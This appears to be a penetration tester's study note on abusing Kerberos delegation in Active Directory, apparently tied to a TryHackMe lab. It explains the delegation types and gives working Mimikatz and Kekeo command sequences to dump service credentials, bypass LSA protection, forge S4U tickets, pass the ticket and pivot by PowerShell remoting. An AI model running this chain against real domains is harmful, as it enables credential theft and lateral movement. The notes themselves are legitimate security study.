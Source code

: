 # Active Directory Kerberos Delegation Exploitation

## Introduction

Fopr [[Attacking-Kerberos]] and [[Active-Directory-Kerberos-Authenication-Defined]]

Kerberos Delegation can be used to is to enable an application to access resources hosted on a different server, without Kerberos Delegation we need a AD Service Account and provide it directit or have in innately have direct access to the target resource. With delegation the service account can be delegated to the target resource and interact with it on the behalf of the user able to delegate to the exploited Kerberos delegation victim. This process is visually represented below:

1. Current Context ---> Access ---> Victim x-x-x-x-No Access-x-x-x-x Target Resource
2. Current Context ---> Kerberos Delegation ---> Victim ---> Access Via Delegated to ---> Target Resource

## Constrained Vs Unconstrained

Unconstrained delegation is the original implementation that Microsoft later superceded with Constrained Delegation in 2003. 

- **Unconstrained**

[Unconstrain Delegation](https://medium.com/@riccardo.ancarani94/exploiting-unconstrained-delegation-a81eabbd6976)  provides no limits to the delegation, if a user with the `"TRUSTED_FOR_DELEGATION"` flag set authenticates to a host with Unconstrained Delegation configured, a ticket-granting ticket (TGT) for that user account is generated and stored in memory. Therefore we could attempt to force a privileged account to authenticate to the host, which would allow them to intercept the generated TGT and impersonate the privileged service. 
[article](https://medium.com/@riccardo.ancarani94/exploiting-unconstrained-delegation-a81eabbd6976)

- **Constrained**

To make this less over-powered and remediate security failings of Unconstrained Delegation, Microsoft introduced Constrained Delegation in 2003. Constrained Delegation restricts what services an account can be delegated to, limiting exposure if an account is compromised. These are service, HOST for accounts, CIFS - Common Internet File System-based or based on one of allowed [[Network-Protocols]] within the AD Domain. With [[Powerview-Cheatsheet]] remember to `import-module`...

```powershell
Get-NetUser -TrustedToAuth
# Look at msds-allowedtodelegateto 
```

Dependent on your current context, Domain layout and attack path objectives.  Understanding the connective mechanicism between machines in AD is key as the [[Network-Protocols]]. Usage of either Legitmate Windows variants of or the any of the [[Impacket-Cheatsheet]] relevant, like for WinRM (but not Impacket) [[Evil-winrm-Cheatsheet]]. With Administrative Access [[Mimikatz-Cheatsheet]] to harvest credentials and tokens; [[Kekeo-Cheatsheet]] to generate tickets.

Get a service username and password with Mimkatz
```powershell
# mimikatz.exe
token::elevate
!+ # LSA protection bypass!
lsdump::secrets
```

Generate TGT tickets with Kekeo
**FOR SOME SERVICE REQUIRE MULTIPLE TICKETS**

Method | Protocols
--- | ---
PS Remoting | http wsman

```shell
# kekeo.exe
tgt::ask /user:<svc-user> /domain:<domain> /password:<password>
# Successful output will have:
> Ticket in file 'tgt_filename'
# Do for each $PROTOCOL required!
tgs::s4u /tgt:'tgt_filename' /user:<current_username_not_svc> /service:$PROTOCOL/<service>
# Successful output will have:
> Ticket in file 'TGS_...'
```

Import tickets with Mimikatz
```powershell
# mimikatz.exe
privilege::debug
!+ # LSA protection bypass!
# Use TGS file(S) from kekeo
kerberos::ptt $TGS_Filename_beware_of_clipboard_newlines_or_carraige_return
# Successful output:
* File:
'TGS_*....'
OK
```

The Powershell remote into the next server/workstation:
```powershell
klist # Show imported Tickets
New-PSSession -ComputerName <target>.<domain>
```


- **Resource-Based Contrained Delegation**

Introduced by Microsoft in 2012, Resource-Based Constrained Delegation (RBCD) once again provided additional restrictions on Kerberos Delegation for security. The service now specifies which objects can delegate to it allowing the service owner to control who can access it. If we have permissions to configure RBCD for a service we have ability to set `msDS-AllowedToActOnBehalfOfOtherIdentity`. populating it with currently control account then we can generate a TGT for the account we control, which will allow us to interact with this service see this article for more [Resource-based Constrained Delegation Abuse](https://stealthbits.com/blog/resource-based-constrained-delegation-abuse/).




## References

[THM Room Exploiting AD](https://tryhackme.com/room/exploitingad)
[Unconstrain Delegation Medium Blog](https://medium.com/@riccardo.ancarani94/exploiting-unconstrained-delegation-a81eabbd6976)
[Resource-based Constrained Delegation Abuse](https://stealthbits.com/blog/resource-based-constrained-delegation-abuse/)